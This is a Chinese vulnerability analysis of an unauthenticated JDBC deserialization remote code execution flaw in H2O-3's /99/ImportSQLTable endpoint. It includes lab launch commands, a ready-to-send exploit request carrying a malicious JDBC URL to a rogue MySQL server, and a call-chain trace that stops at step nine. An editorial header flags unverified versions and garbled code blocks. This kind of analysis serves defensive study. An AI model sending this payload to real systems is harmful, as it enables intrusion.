# CVE-2024-45758&CVE-2024-10553 H2O-3反序列化漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：REST SQL import可达；另加受影响MySQL JDBC驱动和可用gadget依赖；默认jar不含该驱动
- 证据范围：详细异步调用链与JDBC黑名单补丁分析；保留依赖和接口差异

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- P0影响版本写<=3.36.0.4，实验下载却3.46.0.4，需核验测试版本和范围
- 分类错误：H2O-3是机器学习平台，不能与H2数据库混淆
- 两个CVE被作者称同一漏洞，不能未经CNA确认直接合并成一个标识
- 主metadata漏10553；SaveToHiveTable默认不可用属于重要限定
- 存在依赖包不等于指定gadget链一定可利用，需版本及JDK条件
- 大量HTTP/Java/启动命令压成一行；部分方法链接空目标
- 修复只展示过滤代码，没有准确安全发布版本或官方commit

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

原创 标准云
                    标准云  蚁景网络安全   2026-03-05 09:31  
  
  
  
  
  
  
H2O-3 是由 H2O.ai 开发的开源分布式机器学习平台，支持通过 JDBC 连接 MySQL、PostgreSQL 等数据库进行数据导入。在H2O-3 3.36.0.4 及之前版本中，/99/ImportSQLTable  
 无需身份认证的 REST API 端点存在严重的远程代码执行漏洞（CVE-2024-10553 / CVE-2024-45758）。（漏洞描述中的另一个接口/3/SaveToHiveTable  
默认配置没有相关实现代码，所以无法利用）  
  
漏洞产生的根本原因在于：尽管 H2O 使用了名为 getConnectionSafe  
 的方法处理数据库连接（从命名上看似乎是为了建立安全连接），但是该方法内部直接将用户传入的 connection_url  
 参数传递给了 DriverManger.getConnection()  
，未对 JDBC URL 进行任何安全校验和过滤。攻击者可以通过构造恶意的 JDBC URL（包含autoDeserialize=true  
等参数），将连接指向攻击者控制的伪造的  MySQL 服务器，利用 MySQL JDBC 驱动在处理服务器响应时的反序列化行为，配合目标环境中存在的反序列化 gadget 链（如  Jackson-databind、Commons-Beanutils 等）实现任意代码执行。  
  
存在的两个 CVE 编号（CVE-2024-10553 和 CVE-2024-45758），本质上是同一漏洞的不同披露报告。两者在利用细节上略有差异：一是 MySQL 驱动版本不同导致拦截器参数名不同（5.x 版本使用statementInterceptors  
，8.x 版本使用queryInterceptors  
）;二是选用的反序列化 gadget 链不同。  
## 环境搭建  
  
https://h2o-release.s3.amazonaws.com/h2o/rel-3.46.0/4/index.html  
  
  
  
  
  
默认情况下，H2O-3 通过java -jar h2o.jar  
命令启动，但是这种方式只会加载 h2o.jar 自身的类，并不包含 MySQL 驱动。由于该漏洞的利用依赖 MySQL JDBC 驱动来触发反序列化，因此需要在启动时额外加载 MySQL 驱动包。通过查看 h2o.jar 中的 META-INF/MANIFEST.MF  
文件，可以确定主启动类为 water.H2OApp  
。下载  MySQL  驱动(https://repo1.maven.org/maven2/mysql/mysql-connector-java/5.1.38/mysql-connector-java-5.1.38.jar)并放在在同一目录下。正确的启动命令为：  
```
# Windowsjava -cp "mysql-connector-java-5.1.38.jar;h2o.jar" water.H2OApp# Linux / Macjava -cp mysql-connector-java-5.1.38.jar:h2o.jar water.H2OApp#调试启动命令java -agentlib:jdwp=transport=dt_socket,server=y,suspend=y,address=5005 -cp "mysql-connector-java-5.1.38.jar;h2o.jar" water.H2OApp
```  
  
  
  
  
启动成功后，访问 http://localhost:54321  
 就可以进入 H2O 的 Web 管理界面。  
  
  
  
## 漏洞复现  
  
构造数据包  
```http
POST /99/ImportSQLTable HTTP/1.1Host: 127.0.0.1:54321Accept: application/json, text/javascript, */*; q=0.01User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36X-Requested-With: XMLHttpRequestSec-Fetch-Site: same-originSec-Fetch-Mode: corsSec-Fetch-Dest: emptyReferer: http://127.0.0.1:54321/flow/index.htmlAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: closeContent-Type: application/jsonContent-Length: 179{   "connection_url": "jdbc:mysql://127.0.0.1:59351/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=deser_CB_calc" }
```  
  
  
  
  
  
  
## 漏洞分析  
  
第一步：路由注册（RegisterV3Api）  
  
water.api.RegisterV3Api`#registerEndPoints`  
  
  
  
  
  
```
context.registerEndpoint(    "importSqlTable",                    // 端点名称    "POST /99/ImportSQLTable",           // HTTP方法 + 路径    ImportSQLTableHandler.class,         // Handler类    "importSQLTable",                    // 方法名    "Import SQL table into an H2O Frame." // 描述);
```  
  
当 Jetty Web 服务器接收到 HTTP请求 → RequestServer 查找路由表 → 把JSON数据转换成Java对象 → 通过反射调用 Handler 方法  
  
‍  
  
第二步：Handler处理请求（ImportSQLTableHandler）  
  
water.api.ImportSQLTableHandler`#importSQLTable`  
  
  
  
  
  
问题主要出现在调用核心业务逻辑 SQLManager.importSqlTable 对用户传入的数据库连接 URL 和用户名没有校验  
  
‍  
  
第三步：SQLManager处理（SQLManager）  
  
water.jdbc.SQLManager`#importSqlTable`  
  
  
  
  
  
  
new Job  
 创建一个Job（任务）→ new SQLImportDriver  
 创建执行器，把参数都保存进去  → j.start  
启动任务  
  
‍  
  
第四步：把任务提交到线程池  
  
water.Job`#start`  
(H2O.H2OCountedCompleter, long)  
  
  
  
  
‍  
  
water.H2O`#submitTask`  
  
  
  
  
  
  
这行代码把 task (SQLImportDriver 对象) 放入 ForkJoinPool 线程池的任务队列  
  
water.H2O.PrioritizedForkJoinPool     PrioritizedForkJoinPool 是 H2O.java 中定义的内部类继承 ForKJoinPool  
  
  
  
  
  
‍  
  
ForKJoinPool 是 Java 内置的线程池，创建时会自动：  
- 创建任务队列  
  
- 创建工作线程  
  
- 启动工作线程（循环等待任务）  
  
‍  
  
第五步：创建任务队列  
  
jsr166y.ForkJoinPool`#submit`  
(ForkJoinTask)  
  
  
  
  
  
jsr166y.ForkJoinPool`#doSubmit`  
  
  
  
  
  
  
jsr166y.ForkJoinPool`#signalWork`  
  
  
  
  
  
第六步：创建任务线程  
  
jsr166y.ForkJoinPool`#addWorker`  
  
  
  
  
  
  
第七步：启动任务线程  
  
启动线程，线程会开始运行 ForkJoinWorkerThread`#run`  
() 方法  
  
jsr166y.ForkJoinWorkerThread`#run`  
  
  
  
  
  
jsr166y.ForkJoinPool`#runWorker`  
  
  
  
  
  
  
jsr166y.ForkJoinPool.WorkQueue`#runTask`  
  
  
  
  
  
```
当创建一个 SQLImportDriver 对象并调用 doExec() 时：//this = SQLImportDriver 对象t.doExec() 的调用链t.doExec()                          // ForkJoinTask 中定义    |    |// jsr166y.ForkJoinTask#doExec 调用 this.exec(); this = SQLImportDriver 对象    |// SQLImportDriver 没有重写 exec()    |// 调用 CountedCompleter.exe()  ↓exec()                              // CountedCompleter 中重写    |  |// jsr166y.CountedCompleter#exec 调用 this.compute();this = SQLImportDriver 对象    |// SQLImportDriver 没有重写 compute()    |// 调用 H2OCountedCompleter.compute()  ↓compute()                           // H2OCountedCompleter 中重写（final）  |  |//water.H2O.H2OCountedCompleter#compute调用this.compute2();this = SQLImportDriver 对象  |// SQLImportDriver 重写 compute2()  |// 调用 SQLImportDriver.compute2()  |    ↓compute2()                          // SQLImportDriver 中实现
```  
  
‍  
  
第八步：执行漏洞代码  
  
water.jdbc.SQLManager.SQLImportDriver`#compute2`  
  
  
  
  
  
  
compute2() 调用 getConnectionSafe()  
  
第九步：建立数据库连接（漏洞触发）  
  
water.jdbc.SQLManager`#getConnectionSafe`  
  
  
